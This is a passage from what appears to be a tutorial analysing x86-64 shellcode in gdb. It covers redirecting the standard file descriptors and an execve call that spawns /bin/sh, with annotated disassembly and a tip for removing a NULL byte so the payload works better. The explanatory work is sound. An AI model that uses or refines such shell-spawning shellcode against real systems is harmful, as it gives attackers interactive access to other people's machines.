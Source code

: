 ```nasm
   0x4000c1:    loopne 0x4000ba
```

<figcaption class="figure-caption">Redirection of stdin, stdout, and stderr</figcaption>

## Spawning a shell

The last block of assembly instructions involves the usage of the syscall `execve` in order to spawn a shell.

In this case, after redirecting the standard file descriptors, the shellcode spawn a `/bin/sh` shell.

```nasm
(gdb) x/8i $pc

   ; using syscall execve
=> 0x4000c3:    push   0x3b
   0x4000c5:    pop    rax
   
   ; clear RDX by sign-extension of RAX
   0x4000c6:    cdq
   
   ; set RBX to point to "/bin/sh" (reversed)
   ; followed by a NULL byte
   0x4000c7:    movabs rbx,0x68732f6e69622f
   0x4000d1:    push   rbx
   
   ; 1st argument of execve: pointer to program to call
   0x4000d2:    push   rsp
   0x4000d3:    pop    rdi
   
   ; invoke execve
   0x4000d4:    syscall
```

<figcaption class="figure-caption">Spawn `/bin/sh`</figcaption>

Note that the instruction `movabs` contains a NULL byte in the path of the shell. 

To improve it, you can use a path such as `/bin//sh` or `//bin/sh`.

